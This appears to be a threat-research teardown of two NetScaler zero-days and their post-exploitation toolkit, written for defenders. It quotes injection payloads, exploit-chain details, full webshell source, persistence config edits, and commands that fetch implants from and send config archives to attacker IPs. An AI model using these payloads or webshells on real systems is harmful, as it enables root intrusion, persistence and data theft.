

On September 26, 2026, watchTowr publicly stated that reports of a new NetScaler zero-day were credible. Citrix shipped a patch and a bulletin the next day. By September 29 there was a public proof of concept, live exploitation attempts within minutes of its release, and mass scanning of the roughly 50,000 internet-exposed appliances. Mandiant described "dozens of impacted organizations" and attributed the intrusions to "advanced and suspected state-sponsored threat actors."

I wanted to understand this one at the level I usually reserve for ransomware binaries: not the bulletins, the actual code. What does it mean for a log line to become a root shell? Why did the same SUID shell keep showing up in the wild and inside the public PoC? And what is actually living on these appliances once the initial access is forgotten?

This post is a full teardown of both zero-days and everything that followed them. The sources are public: vendor research, the public PoCs, and the vulnerable script itself, which a researcher carved out of three NetScaler firmware builds (including the patched one) so the rest of us can read the diff. And the actual payloads: 18 samples matching the GTI IOC collection and the vendor-published hashes, each one verified against its published sha256 value before analysis. Where the first reporting wave had to paraphrase these files, this teardown quotes them. Everything was worked through offline; nothing was executed. The artifact manifest and full IOC set are in the appendices.

## The Campaign in One Picture

Two independent pre-auth entry points converged on the same post-exploitation toolkit. CVE-2026-88771 is the exotic one: command injection where the injection vector is a log file, executed later by the appliance's own maintenance tooling. CVE-2026-88772 is a memory-corruption RCE in the DTLS handshake path. Both run as root, because on a NetScaler nearly everything does.


<span class="fig-cap">Fig 1: both entry paths end in the same persistence toolkit. Note that the SUID shell appears on both branches.</span>

A timeline, assembled from vendor telemetry (all 2026):

| Date | Event |
|---|---|
| Aug 21 | Earliest fingerprinting observed by Unit 42 (`/admin_ui/common/css/ns/ui.css`, `/vpn/js/rdx/core/lang/rdx_en.json.gz`) |
| Sep 3 | Earliest known CVE-2026-88772 exploitation (Mandiant, via CyberScoop) |
| Sep 4-24 | `.deb`-disguised webshells dropped via the DTLS chain (Unit 42) |
| Sep 20 | Earliest CVE-2026-88771 injection attempts seen by Rapid7 (two attempts, 14:28 UTC) |
| Sep 26 | watchTowr states the zero-day reports are credible, pre-CVE |
| Sep 27 | Citrix bulletin CTX697096 with fixes for eight CVEs; CISA KEV listing; ~50,277 exposed instances (Xpanse) |
| Sep 28 | watchTowr root-cause analysis; Rapid7, Corelight, CERT-EU publications |
| Sep 29 | Public PoC; exploitation attempts within minutes; Sygnia observes a new `unexpectedly died` variant |
| Sep 30 | Unit 42 and Sygnia advisories; Mandiant attribution statement; `.ctxs.receiver` first submitted to VT (detected by 1 of 94 engines) |
| Oct 1 | TENEX publishes the "under 72 hours" recap and staging-host intel |
| Oct 2 | First VT submissions of a self-branded "SLAPSHOT/WHIPSHOT-analog" kit exfiltrating to a fresh host; twenty deployments follow within 18 hours across three code generations |

The "72 hours" framing (TENEX) counts from the September 26 warning to the September 29 mass exploitation. The targeted zero-day window was actually three to four weeks longer.

## Know Your Target: Pitboss, NSPPE, and a Perl Script That Trusts Its Logs

A NetScaler ADC is a FreeBSD appliance whose personality lives in a few monolithic components. `nsppe`, the NetScaler Packet Processing Engine, is a userspace process that handles the actual traffic: TLS, DTLS, load balancing, the AAA/Gateway flows. `pitboss` is the process supervisor; when NSPPE dies, pitboss is the daemon that logs the death and decides whether to restart it. Those lifecycle messages ("missed too many heartbeats", "unexpectedly died") end up in `/var/log/ns.log` alongside everything else.

Somewhere in the appliance's maintenance tooling there is a Perl script, `/netscaler/ns_monuploadd_err.pl`, whose job is to look through the logs for evidence that NSPPE crashed and find the matching core dump. It is invoked with mode flags like `-WR` (warm restart) at daemon start and on a periodic cycle, and it reads:

```perl
my @WR_FILES = ("$OFF_DIR/var/log/ns.log.0", "$OFF_DIR/var/log/ns.log", "$OFF_DIR/var/log/messages");
```

Keep that list in mind. It is the ingredient list for everything that follows.

## CVE-2026-88771: The Root Cause, Line by Line

Here is the vulnerable code, verbatim from firmware build 66.59 (identical in 72.61), lines 368-370:

```perl
my $WR_PPE_COREFILE_NAME = `grep -E -i "pitboss.*PPE.*missed too many heartbeats|pitboss.*PPE.*unexpectedly died" @WR_FILES |\
tail -1 | sed -e 's!.*NSPPE!NSPPE!g' -e 's!(!!g' -e 's!)!!g' | awk '{ print \$1"-"\$2 }'`;
```

and then, a few lines later, the result is interpolated unquoted into a second shell command:

```perl
my $WR_PPE_CORE = `find $OFF_DIR/var/core -name ${WR_PPE_COREFILE_NAME}* -print | tail -1`;
```

The intent is innocuous: pull the last pitboss death message out of the logs, massage it into something resembling a core-file name (`NSPPE-00-12345` style), and search `/var/core` for it. The reality is that `$WR_PPE_COREFILE_NAME` is a string the network can write.

### The Anatomy of the Injection Grammar

Watch what the pipeline does to an attacker-supplied log line. Take watchTowr's canonical payload, delivered as a username:

```
pitboss PPE unexpectedly died NSPPE;:`id>/var/tmp/watchTowr`;# X
```

1. `grep -E -i "pitboss.*PPE.*missed too many heartbeats|pitboss.*PPE.*unexpectedly died"` matches. The line only needs to contain `pitboss`, then anything, then `PPE` (which is satisfied by the substring inside `NSPPE` itself), then one of the two death phrases. Any logged text matching that shape is a candidate.
2. `tail -1` keeps only the newest matching line. This is why attackers hammered authentication logs: only the last poison line executes, so you want yours to be the newest when the script fires. CERT-EU called this the apparent race condition in the campaign.
3. `sed 's!.*NSPPE!NSPPE!g'` greedily deletes everything up to the last occurrence of `NSPPE`. This is the attacker's cut point: everything after the final `NSPPE` survives. That is why the payload places the magic anchor immediately before its command.
4. The two parenthesis-stripping `sed` expressions remove `(` and `)`. Payloads therefore avoid parentheses entirely.
5. `awk '{ print $1"-"$2 }'` keeps only the first two whitespace-delimited fields, joined by a dash. This is the constraint that defines the whole payload dialect: no literal spaces anywhere in the command, or everything after the first space (plus one surviving token) is discarded. Hence `${IFS}` everywhere.
6. The mangled result is dropped unquoted into `find ... -name ${WR_PPE_COREFILE_NAME}* ...` inside backticks. The shell splits on the attacker's `;`, and the semicolon-separated commands run as root. The trailing `#` starts a comment that swallows the leftover `-print | tail -1` remnants.

Every quirk of the observed payloads maps to one of those six steps. This is the rare vulnerability where you can read the exploit grammar directly off the sanitizer that was supposed to prevent it.

### The Patch, Read as a Confession

The fixed build (73.37) replaces the pipeline with three independent defenses:

```perl
my $WR_PPE_COREFILE_NAME = "";
my $CORE_RE = qr/pitboss.*(NSPPE-\d{2})\s*\((\d+)\).*(missed too many heartbeats|unexpectedly died)/;
for my $log (@WR_FILES) {
    open my $fh, '<', $log or next;
    while (my $line = <$fh>) {
        $WR_PPE_COREFILE_NAME = "$1-$2" if $line =~ $CORE_RE;
    }
    close $fh;
}
```

The name is now built exclusively from captured groups `NSPPE-\d{2}` and `\((\d+)\)`, digits only, glued in Perl rather than in shell. Then:

```perl
if (open my $find, '-|', 'find', "$OFF_DIR/var/core", '-type', 'f',
    '(', '-name', $WR_PPE_COREFILE_NAME, '-o', '-name', "$WR_PPE_COREFILE_NAME.gz", ')')
{
    while (my $found = <$find>) {
        chomp $found;
        # path should contain only alphanumeric chars and [/-.]
        # it gets used downstream within backticks
        if ($found =~ /\A[A-Za-z0-9\/\-.]+\z/) {
            $WR_PPE_CORE = $found;
        }
    }
    close $find;
}
```

`find` is invoked in list form, so no shell ever sees the data, and even the output paths are re-validated against an allowlist because, as the comment admits, the value "gets used downstream within backticks." The patch is a tidy case study in fixing an injection at three layers at once: constrain the input grammar, remove the shell from the sink, and validate at the boundary. It also quietly confirms the vendor understood exactly which sink mattered.

### How the Line Gets Poisoned, and When It Fires

The beautiful, terrible part is the breadth of the write primitive. The script greps `ns.log.0`, `ns.log`, and `messages` for anything matching the pattern. Failed authentications are logged with the submitted username verbatim. So the entire exploit is one unauthenticated POST:

```
POST /nf/auth/doAuthentication.do HTTP/1.1
Host: netscaler-aaa-server
Content-Type: application/x-www-form-urlencoded

login=<urlencoded: pitboss PPE unexpectedly died NSPPE;:`id>/var/tmp/watchTowr`;# X>
&passwd=x&savecredentials=false&nsg-x1-logon-button=Log+On
```

The 401 response is irrelevant; the payload has already done its job by being logged. watchTowr notes that the endpoint is not special: any field that reaches the logs works (failed logins, rate-limit blocks, request parameters, User-Agent headers, even the management interface). CERT-EU found the same bug independently from the opposite direction: European institutions spotted strange base64 User-Agents against LogonPoint pages before anyone knew there was a CVE.

The catch, and the reason this is a slow weapon, is execution timing. The script runs at daemon start and on a periodic cycle; Sygnia and watchTowr put the worst-case pickup delay at up to 24 hours. watchTowr claims an undisclosed technique to force instant pickup and, in what has become their house style, kept it to themselves. An admin can also trigger it manually with `/netscaler/ns_monuploadd_err.pl -WR`, which is worth remembering when testing detections in a lab.

That delay cuts both ways for defenders: a poisoned line in your logs is not proof of execution, and the absence of an obvious follow-up in the same minute is not proof of safety.

### The Three-Stage Protocol the Actors Actually Used

The real operators did not inject one-liner commands and read files out of band. Unit 42, Sygnia, and CERT-EU reconstruct a three-stage protocol that turns the 24-hour delay into an advantage:

1. **Stage the payload in a second log.** Send requests whose User-Agent (or URI) carries base64-encoded shell, marked with a searchable prefix such as `INDEX:` (CERT-EU) or `2N:` (Sygnia, Unit 42). These land in `/var/log/httpaccess-vpn.log`. A 404 response is fine; staging only needs the request to be logged.
2. **Poison `ns.log`** with a trigger line whose injected command greps the HTTP log for the marker, strips the surrounding line noise, and pipes the base64 through `b64decode` and into `sh` (or `php`).
3. **Wait.** When the maintenance cycle fires, the trigger retrieves and executes the staged payload, which can be arbitrarily large, something the direct injection grammar cannot do given the no-spaces, no-parens constraints.

CERT-EU's verbatim example of a stage-two trigger, truncated in their publication:

```
[..] process_kernel_socket: call to authenticate user :pitboss PPE missed too many heartbeatsNSPPE;grep${IFS}INDEX:${IFS}/va...
```

Note the missing space in `heartbeatsNSPPE;`. Vendors observed both spellings; the grep is substring-based and tolerant, but your detections should account for both (more on that below).

## The Public PoCs, Reverse Engineered

### watchTowr's CVE-2026-88771 PoC

sha256 `c206c6da679260a0bb5d325ceb55984fed16a9016e8346cbe8344f59e3f76669`

Fifty-seven lines, and the whole exploit is one of them:

```python
login_payload = f"pitboss PPE unexpectedly died NSPPE;{args.command};# X" ; #Pat & Mat
encoded_login = urllib.parse.quote(login_payload, safe='') ;
url = args.target.rstrip('/') + "/nf/auth/doAuthentication.do"
```

It URL-encodes the login with `safe=''` (every byte encoded, which matters because `+` and `&` would otherwise corrupt the form field), POSTs it, and exits with a message that deserves to be quoted in every summary of this event: "command sent, wait for it to get picked up (might take up to 24 hours)."

The script calls itself a "Detection Artifact Generator": it writes a marker file rather than returning command output, because the primitive gives you no response channel. You prove execution by finding the file (or your OOB callback) later.

### craigsblackie's Trigger Variant

sha256 `abc8ad6c89c97d03cf00e24e0487585ffb7da049f68e2195ef4c4b87224d18cb`

An independent PoC (published September 28) that demonstrates two things watchTowr's does not. First, a second injection surface: the Nitro management API, `POST /nitro/v1/config/login`, with the poison string in a JSON `username` field. Second, its docstring is the clearest public statement of the sink-safe payload rules, worth internalizing if you write detections or purple-team this bug:

> the vulnerable parser strips '(' and ')' and keeps only the first whitespace-delimited field, so the injected command must contain NO '(' ')' and NO literal spaces. Use ${IFS} for spaces; use path-only URLs (no '?' or '&').

Its default payload is an OOB callback (`/usr/bin/curl${IFS}-sk${IFS}<callback>/<token>`), which is the right shape for authorized detection testing: a hit on your listener is unauthenticated root code execution, proven.

The same researcher's repository also carries the firmware evidence used for the diff above: `ns_monuploadd_err.pl` extracted from builds 66.59, 72.61 (identical, vulnerable) and 73.37 (patched), plus decompiled NSPPE and GUI analysis. Vulnerable script sha256 `fb7f574a4c185fa8e520c47280939ce22899243a0083ee7120b7300c43baca29`, patched `02b24a9923a6cee1fbee48137b7f81b7e0f5169246728b7368fc3a066c43a708`.

### A Word of Warning: the PoC Scam Ecosystem

Within 48 hours of disclosure, GitHub also hosted README-only repositories named after both CVEs whose "exploit download" links are tinyurl redirects to satoshidisk.com crypto-paywall pages (observed: payment IDs `CSVA0E` and `CSV9kk`), plus at least one SEO-spam repo funneling to a content farm. This is now a standard CVE monetization pattern: when you are triaging "public PoC exists" claims for your org's risk decisions, verify the repo has code, check the author, and never run a downloader. The real, working PoCs are the two above.

## CVE-2026-88772: The Other Door

If 88771 is a logic bug with a painter's palette of constraints, 88772 is the opposite: a pre-auth memory corruption in NSPPE's DTLS handshake parsing, reachable over UDP wherever DTLS is enabled (which is the default configuration on Gateway VPN virtual servers per Sygnia). GTIG's forensic picture: during the pre-authentication cryptographic handshake, specially malformed and fragmented DTLS record structures induce heap boundary corruption that diverts control flow to attacker shellcode, running as root on FreeBSD. The artifacts it leaves are the pitboss lifecycle messages I opened this post with:

```
0-PPE-0 : default SSLLOG SSL_HANDSHAKE_FAILURE 0 : ... ClientVersion DTLSv1.0 -
CipherSuite "TLS1-AES-256-CBC-SHA" - Session New -
Reason "Handshake failure-Internal Error"
```
```
qat0: Process <PID> NSPPE-<##> exit with orphan rings 5:500
pitboss[<##>]: pitboss <DATETIME> NOT restarting NSPPE-<##> (<PID>)
```

There is a public PoC for this one too, and it is a genuinely instructive piece of exploitation engineering. watchTowr's `watchTowr-vs-Citrix-Netscaler-CVE-2026-88772.py` (sha256 `c0f4545bc91e3d9a243fe7d131162761906b0ddd0d004965187bec6f66b0bc45`, pwntools) implements the full chain. Here is my teardown of it.

### Step 1: A Fragmentation-Confusion Write Primitive

The exploit sends 120 UDP datagrams, each one DTLS record (`0x16`, version `fe ff`, DTLS 1.0) whose body is 1459 bytes. Inside each body there are two handshake headers back to back:

- A **primary** fragment header declaring message sequence 2, a 120-byte total length, fragment offset equal to the record index, and a fragment length of exactly 1 byte.
- A **hidden** second header declaring message sequence 3 with a large total and fragment length, followed by 0xff filler and the bytes the attacker actually wants in memory.

The logic bug this abuses: the reassembly bookkeeping trusts the declared logical sizes (allocate and account for 120 bytes across the message), while the copy path moves the physical record body. Each record therefore contributes roughly 1.3 KB of attacker-controlled bytes far beyond what its allocation accounts for, and the nested second header re-targets where the surplus lands. The script models the result as one contiguous "scratch" region (its constants span `0x355BBC0` through `0x357F820`) and provides a `scratch_location()` function that maps every desired destination byte to a record index and body offset. Heap grooming with byte granularity, over UDP, pre-auth.

Worth pausing on: all addresses in the exploit are absolute constants. Gadgets, `setcontext`, `mprotect`, the scratch base. The NSPPE target mapping does not move between appliances, which is why a single hardcoded offset table works across the fleet. Edge appliances are a defender's blind spot and an exploit developer's stable target.

### Step 2: Timer Lists to Code Execution

The scratch bytes are spent on two structures. First, the tail pointers of two NSPPE timer lists (`0x356E870`, `0x356DAF8`) are redirected to link a fake node at `0x355C800`. When timer processing later walks the list, it dispatches through the fake node's method table:

- entry at method table `+0xD0`: a JOP-style gadget at `0x151E638` that funnels the node pointer from `rsi` into `rdi`,
- entry at `+0x18`: `setcontext` at `0x1FE7570`, now receiving the fake node as its `ucontext` argument.

### Step 3: setcontext, ROP, Shellcode

The fake node begins with a forged FreeBSD `ucontext` (816 bytes) whose `rip` points at a `pop rdi; ret` gadget and whose `rsp` points at a ROP stack at `0x355E000`. The chain is short and honest:

```
pop rdi ; ret        -> rdi = 0x355E000        (the page itself)
pop rsi ; ret        -> rsi = 0x1000           (one page)
pop rdx ; ret        -> rdx = 7                (RWX)
mprotect                                      (page is now executable)
                       -> return into shellcode at 0x355E100
```

The shellcode (assembled with pwntools `shellcraft` for `freebsd/amd64`) does four things:

1. `open` / `write` / `close` a file with attacker-chosen path and content (defaults: `/tmp/file.txt`, `content`). This is the "detection artifact" the tool is named for.
2. `chmod("/bin/sh", 0o6555)`. Syscall 15, mode `0xd6d`: setuid plus setgid root. The same SUID-shell persistence that GTIG, Unit 42, Sygnia, and TENEX all observed in real intrusions, arriving from the "safe" public PoC.
3. `ud2`: deliberate illegal instruction, terminating NSPPE cleanly from the attacker's perspective.
4. The driver script then loops, re-associating its DTLS session up to 30 times at 2-second intervals while NSPPE restarts, which produces the pitboss crash-log artifacts cited above.

Points 2 through 4 matter for triage philosophy: even a "benign" PoC run against your appliance leaves a SUID root shell behind, and even a failed exploitation attempt crashes NSPPE and leaves pitboss log evidence. Treat unexpected NSPPE restarts in the disclosure window as compromise indicators, not as appliance flakiness.

## The Payload Landscape

Initial access is the least interesting part of this campaign. What follows is a full stack of appliance-native persistence, and it deserves its own reverse engineering treatment. Most of these samples sat behind login walls while the campaign was breaking. Eighteen of them are now on my disk, each verified against its published sha256 value, and the analysis below quotes the payloads themselves. Two families never surfaced as samples at all (Unit 42's `nsg64.deb` and the GTI WHIPSHOT/SLAPSHOT pair; the hashes are published, the files are not), and where that matters I lean on the published YARA and protocol descriptions instead.

### .ctxs.receiver: 237 Bytes of Cookie-Gated Shell

The signature webshell of the 88771 chain is tiny, hidden, and namespace-camouflaged. The retrieved sample is 237 bytes, one statement with cache-busting headers bolted on, first submitted to VT on September 30 and detected that day by exactly one engine out of 94:

```php
<?php header("Cache-Control: no-store, no-cache, must-revalidate");header("Pragma: no-cache");header("Expires: 0");
if($_COOKIE["CsrfToken"]==="e826d7ddf3c85920"&&!empty($_COOKIE["NSC_TASS"]))passthru(urldecode($_COOKIE["NSC_TASS"])); ?>
```

Three design choices worth calling out. The gate is a hardcoded `CsrfToken` value, so requests look like ordinary CSRF-protected portal traffic. The command channel is a cookie named `NSC_TASS`, deliberately inside the legitimate `NSC_*` cookie namespace that NetScaler gateways emit constantly; it will not stand out in HTTP logs the way a random parameter would. And `passthru(urldecode(...))` gives the operator URL-encoded transport for free. The file itself is hidden (dot-prefixed) inside `/var/netscaler/logon/LogonPoint/custom/`, a directory that ships with legitimate customization files, and Rapid7's observed sample hashes to `ed082f744f035035900f67edf438f2f7d0528ac501234f63d476d65273cdb9a1`.

Unit 42's Figure 1 publishes the staging payload that installs it. The base64 blob decodes to a shell script that:

```
chmod 6555 /bin/sh
mkdir -p /var/netscaler/logon/LogonPoint/custom
# heredoc: write .ctxs.receiver (the PHP above) into the custom dir
# patch /etc/httpd.conf: alias /logon/LogonPoint/custom/receiver.min.css
#   to the webshell, ensure php_flag engine on
kill -HUP `cat /var/run/httpd.pid`      # reload Apache
```

That alias line is the persistence trick this campaign will be remembered for: the webshell is reachable at a URL that looks like a stylesheet request. A `GET /logon/LogonPoint/custom/receiver.min.css` with the right cookies is a root command execution, and in most logging pipelines it is indistinguishable from portal theming traffic. Sygnia observed a double-dot staging variant (`receiver.min..css`), and TENEX documented a sibling shell (`.local_journal`, password checked as a SHA-256 hash, with file up/download) aliased behind `LogonUISimple.html.style.min.css`. Hunt for the pattern, not the exact string.

The retrieved `e6ee7c85.sig` (929 bytes, VT first seen September 27 at 20:27 UTC, the evening of patch day) adds a twist the blog posts compressed into a paragraph: the shell is dual-mode, and its second mode is the installer. Served over HTTP (`REQUEST_METHOD` set) it is the 404-plus-eval C2 stub. Invoked from the command line during staging (`php /var/netscaler/gui/vpn/scripts/linux/e6ee7c85.sig`), it runs the else-branch and does four things in sequence:

```php
$newBlock = "php_flag engine on\n\tAliasMatch ^/vpn/media/(.+)\.ico$ /var/netscaler/gui/vpn/scripts/linux/$1.sig\n\tAddHandler application/x-httpd-php .sig\n";
$newContent = str_replace('php_flag engine off', $newBlock, $content);
...
system('chmod u+s /bin/sh');
...
$newContent = preg_replace('#^.*/vpn/scripts/linux.*\n#m', '', $content);   // scrub /etc/crontab
...
system("/netscaler/nsshutdown -R");                                        // reboot the appliance
```

One file is dropper, config tamper, anti-forensics, and reboot. The crontab scrub deletes any cron line referencing `/vpn/scripts/linux`, erasing traces of earlier staging. And the reboot is not vandalism; it is activation: a restart re-fires `ns_monuploadd_err.pl` at daemon start (fresh poison opportunities), brings up the patched Apache config, and activates any config-file persistence written in the same window.

### The httpd.conf Persistence Family

The Apache config is used as a general-purpose persistence mechanism, in at least four dialects across the reporting:

```
AddHandler application/x-httpd-php .deb
```
(webshells staged in `/netscaler/gui/vpn/scripts/linux` as `nsginstaller*.deb` / `nsgclient*.deb`)

```
php_flag engine on#
AliasMatch ^/vpn/media/(.+).ico$ /var/netscaler/gui/vpn/scripts/linux/$1.sig
AddHandler application/x-httpd-php .sig
```
(requests to `/vpn/media/e6ee7c85.ico` execute the `e6ee7c85.sig` webshell; GTIG)

```
<Files ".ctxs.receiver">
```
(per-file enablement for the hidden shell; Unit 42)

Plus `AddHandler ... .css` / `.ico` variants (Sygnia). The common idea: NetScaler ships Apache with the PHP engine off in the relevant contexts, so the attacker turns it on for exactly the file they just dropped, behind an extension or URL that never looks executable. GTIG also documents the reload mechanism (`/bin/httpd -k restart -f /etc/httpd.conf`, or `kill -HUP` on the pid file) and, importantly for HA pairs, warns that httpd.conf changes sync to the standby node: isolate the peer before cleaning, or persistence replicates itself back.

The e6ee7c85.sig shell takes commands from the `HTTP_NSC_CLIENTTYPE` header (base64, `shell_exec`/`eval`), and the `.deb` installer shells use `HTTP_NSC_LDAP`. Again the theme: C2 inside headers and cookies a NetScaler already emits.

### nsg64.deb: RC4 and a Passphrase

The DTLS-chain webshell Unit 42 analyzed (`nsg64.deb`, sha256 `ae22ef2517b5c0fb47f78745b9cb5260acee0e751b89bcd354640ff8bc8d29ec`) is a more developed tool than the cookie shells: PHP with an RC4-encrypted C2 channel. The RC4 key is `7489a0f93c67fa5cdaeb4b921d90594d`, which is the MD5 of the ASCII passphrase `Rhfajaf1H992`. That is a recoverable-at-scale indicator: any copy of the shell yields the same key material, and the passphrase itself may correlate with other operator artifacts if it surfaces elsewhere. Commands are pulled from HTTP headers, cookies, or GET/POST parameters (`HTTP_xxx` server variables): `cmd`, `size` (via `wc -c`), `dl` (chunked, 1 MB cap), `up`, and `info` (returns `php=<ver>\nns=4`). Privilege escalation uses the legitimate SUID binary `/var/netscaler/.ns_suidcmd`.

Unit 42's `nsg64.deb` itself never surfaced as a sample, but a sibling from the same family did: `nsgtrust.deb`, a 999-byte PHP file first seen on VT September 29. It is the same dual-mode pattern as `e6ee7c85.sig` with a different persistence dialect: in installer mode it rewrites the httpd.conf line `AddType image/x-icon .ico` into `AddType image/x-icon .ico\nAddHandler application/x-httpd-php .deb`, flips `php_flag engine on`, SUIDs the shell, scrubs the crontab, and reboots. In web mode it is the same `HTTP_NSC_CLIENTTYPE` 404-eval stub. The operators were shipping installers as generated variants from a template, not hand-editing each deployment.

### update_c08937.pl: The Second Stage, Secrets in the Clear

The Perl stage TENEX described from telemetry is on disk now (10,073 bytes, first seen September 29), and it is more interesting than the summary, because the author left every credential in plaintext at the top of the file:

```perl
my $user   = 'sec_monitor';
my $pass   = 'ay#39&RGYvv4Xuzy';
my $ws_pass = 'QI@UEG5PC7oRt31E';
```

Executed via `curl | perl` so it never touches disk on the way in, it runs six steps. First, the rogue account: an inline PBKDF2-HMAC-SHA256 implementation (2,500 iterations, random 32-byte salt) produces a NetScaler-format hash `'5' . hex(salt) . hex(hash)`, and the script rewrites `/flash/nsconfig/ns.conf` idempotently, stripping any prior `sec_monitor` lines and appending:

```
add system user sec_monitor <hash> -encrypted
bind system user sec_monitor superuser 100
```

It announces that a reboot is needed to activate. Second, exfiltration: it tars `/flash/nsconfig` to `/tmp/update_result_3567cs.tgz` and POSTs it as `application/octet-stream` to `http://64.94.85.67:443/update_result_3567cs.tgz` with a curl-or-wget fallback, then deletes the archive. Third, `chmod 06555 /bin/sh`. Fourth, the `.local_journal` webshell: the PHP arrives as a base64 heredoc with a placeholder password hash `e4d909c290d0fb1ca068ffaddf22cbd0` baked into the template, which the stage replaces at deploy time with `sha256('QI@UEG5PC7oRt31E')`. Decoded, it is a small polished panel: a dark-themed session login (POST `k`, compared as SHA-256), command execution (POST `cmd`, `shell_exec` with stderr redirect), arbitrary file download (GET `dl=`), and upload to any path (FILES `f` + POST `p`). Fifth, the Apache patch, inserted directly above the legitimate `Alias /logon/` directive so it survives config regeneration:

```
<Files ".local_journal">
    SetHandler application/x-httpd-php
    ...
Alias /logon/LogonPoint/css/LogonUISimple.html.style.min.css "/var/netscaler/logon/LogonPoint/.local_journal"
AliasMatch ^/logon/LogonPoint/css/LogonUISimple\.html\.style\.min\.[0-9a-f]+\.css$ "..."
```

plus `php_flag engine on` and `kill HUP`. Sixth, it prints the resulting URL and the webshell password to the operator's console and deletes itself (`unlink $0`). Per-deployment password substitution, idempotent re-runs, self-cleanup: this is written like software, not like a one-off script.

### nsmon.pl: The Cron Bind Shell No Vendor Named

Among the retrieved samples sits a family none of the vendor writeups describe beyond a hash in Arctic Wolf's IOC pack: `nsmon.pl`, a 3,752-byte Perl implant first submitted September 28 (detected by one engine). Its dropper is the `/xd7h/x` staging script from `62.133.62.80`, which sets the config in environment variables before pulling and running it:

```sh
NSMON_CB=udp://62.133.62.80:39725 NSMON_SECRET=y7lg7jq57b \
nohup sh -c 'curl -fs -m 15 http://62.133.62.80:80/xd7h/nsmon.pl -o /var/tmp/.nsmon/nsmon.pl || exit 1
perl /var/tmp/.nsmon/nsmon.pl' >/dev/null 2>&1 &
```

The implant copies itself to `/var/tmp/.nsmon/nsmon.pl`, persists a cron line into both `/etc/crontab` and `/nsconfig/crontab` (the latter survives reboots with the config partition):

```
*/5 * * * * root perl /var/tmp/.nsmon/nsmon.pl >/dev/null 2>&1
```

then daemonizes and binds a root shell somewhere in `0.0.0.0:41000-41999` (or a pinned `NSMON_PORT`). Each accepted connection forks and execs `/bin/sh -i` with the environment variable `PS1='sh-4# '` set, a small detail with real forensic consequence: session transcripts and any terminal logging make the connection look like someone typing at a local root console rather than a network listener. Finally it phones home with a single line describing itself:

```
<secret> host=<hostname> port=<port> pid=<pid> uid=<uid> os=<os> build=<kernel> ts=<timestamp>
```

sent over UDP or TCP to the callback (observed: `udp://62.133.62.80:39725`, secret `y7lg7jq57b`), or as an HTTP GET to `/<secret>/<base64url-detail>` when the callback scheme is http(s). Every five minutes, cron re-runs it; a state file makes re-runs no-ops while the shell lives. Detection is unusually easy for this family: outbound UDP to 39725 from an appliance, inbound connections landing in 41000-41999, the cron line, or `/var/tmp/.nsmon` on disk.

### WHIPSHOT and SLAPSHOT: The Tunnels

Mandiant's novel-tunneler finding resolves to two cooperating components (their published YARA, transcribed verbatim into the appendix artifacts, encodes the same structure):

**WHIPSHOT** is a PHP tunneling frontend living on the appliance. It accepts its control data as base64 chunks spread across `HTTP_X_UX` / `HTTP_X_UX_[0-9]+` request headers, and forwards TCP to `127.0.0.1:<port>`, where the port is read from `/tmp/.uxdport` (with `/tmp/.uxdlock` as the coordination lock). Responses return as an HTTP 404 whose body carries the tunneled bytes. A 404 with a multi-kilobyte body and long processing time is thus itself an IOC.

**SLAPSHOT** is the Python counterpart, the local proxy those headers ultimately reach, launched in a way designed to leave no script on disk:

```
nohup <python> -c 'import base64;exec(base64.b64decode("<payload>"))' /tmp/.uxdport /tmp/.uxdlock > /dev/null 2>&1 </dev/null &
```

Its wire protocol is a 4-byte big-endian length followed by JSON, with verbs `open`, `push`, `pull`, `exch`, `close`, `ping` (plus `conn` in the YARA), parameters `sid`, `host`, `port`, `data`. Session idle timeout 15 minutes, process idle exit 10 minutes via a `UXD_IDLE_EXIT` environment variable. The operational payoff for the actor: interactive internal reconnaissance and credential theft (Mandiant's observation) that transits the appliance's own HTTPS listener and never creates an outbound connection from a suspicious process.

### The Analog Kit: Cloning the Tunnelers from the Blog Post

The GTI WHIPSHOT/SLAPSHOT samples themselves never surfaced, but on October 2, two days after GTIG named those families, VT started receiving something almost as informative: two 25KB deployment bundles (internally tokenized `380d56` and `ae7427`) that are byte-identical except for their exfil path. Their embedded Python docstrings describe themselves as a "SLAPSHOT-analog" session manager and a "WHIPSHOT-analog" HTTP front, "lab PoC, CVE-2026-88771". Those family names only exist because GTIG coined them on September 30, so whatever this is, a copycat actor weaponizing the published TTPs, or a red-team kit that escaped the lab, it postdates disclosure.

It is operationally finished regardless of authorship. The bundle installs under `/nsconfig/.slap` (survives reboots with the config partition) and drops three webshells into the LogonPoint custom directory: `.slap.receiver`, `.ctxs.receiver`, and `receiver.deb`, all copies of one PHP file gated on a hardcoded cookie pair (`CsrfToken` must equal the per-deployment token `072874c28950cf7befd319d17e9709e7`, the command rides in `CsrfToken2`). The Perl agent implements the same `open/push/pull/exch/close/ping` grammar over `/tmp/.uxdport` that GTIG published; the Python pair (session manager on `127.0.0.1:9909`, HTTP front on `0.0.0.0:9910`, token `slap`) reimplements the 404-with-payload transport. Persistence is belt-and-braces: lines appended to `/nsconfig/rc.netscaler`, root crontab entries (`agent.pl` every minute, `boot.sh` every five), `<Files>` handler blocks plus `Alias /logon/LogonPoint/custom/receiver.v2.min.css` and a hex-suffix `AliasMatch` pointing at `.slap.receiver`, `chmod 6555 /bin/sh`, and a boot.sh that re-checks everything on startup because, as its own comment notes, the appliance rewrites httpd.conf on boot.

